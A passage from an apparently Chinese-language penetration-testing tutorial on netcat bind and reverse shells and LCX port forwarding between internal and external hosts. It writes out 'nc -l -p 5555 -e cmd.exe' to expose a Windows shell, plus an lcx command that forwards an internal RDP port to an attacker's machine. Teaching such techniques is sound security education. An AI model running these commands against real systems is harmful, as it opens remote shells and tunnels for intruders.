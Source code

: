 [](https://xzfile.aliyuncs.com/media/upload/picture/20190912232302-3606d278-d571-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912232302-3606d278-d571-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912232302-3606d278-d571-1.png)  
A 主机处回显  
[](https://xzfile.aliyuncs.com/media/upload/picture/20190912232337-4b2050bc-d571-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912232337-4b2050bc-d571-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912232337-4b2050bc-d571-1.png)

### 3. NC 正向连接 - 网络环境设想：

> A 内网 可以访问 外网 B 【A 为攻击者处于内网】
> 
> B 外网 不能访问 内网 A

适合 **nc 正向连接**：也就将内网主机 A shell 反弹到 外网 B

在内网 A 上执行 nc –l –p 5555 –e cmd .exe

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912232410-5e35f26a-d571-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912232410-5e35f26a-d571-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912232410-5e35f26a-d571-1.png)  
在外网主机 B 上执行 nc –nvv 192.168.0.226 5555

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912232739-daef5e5e-d571-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912232739-daef5e5e-d571-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912232739-daef5e5e-d571-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912232916-14d04dae-d572-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912232916-14d04dae-d572-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912232916-14d04dae-d572-1.png)

### 4. 阐述：

如果客户端【相当于内网】连接服务器【相当于外网】，想获取服务器的 shell，那么称为正向 shell，如果是客户端连接服务器，服务器端想获取客户端的 shell，那么称为反向 shell

NC 是安全的瑞士军刀，太出名了，不光能反弹 shell, 端口转发，还能聊天等等

0x08 LCX
--------

### LCX 用法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20190912233138-6960da32-d572-1.png)[![](https://xzfile.aliyuncs.com/media/upload/picture/20190912233138-6960da32-d572-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190912233138-6960da32-d572-1.png)

### LCX 端口映射环境设想：

> A 外网 无法访问 内网 B 【A 为攻击者处于外网】
> 
> B 内网 可以访问 外网 A

在内网主机 B 上执行：lcx.exe –slave 192.168.0.226 7777 192.168.32.132 3389

意思是：将内网 (192.168.32.132) 的 3389 端口转发到公网 (192.168.0.226) 的 7777  
端口
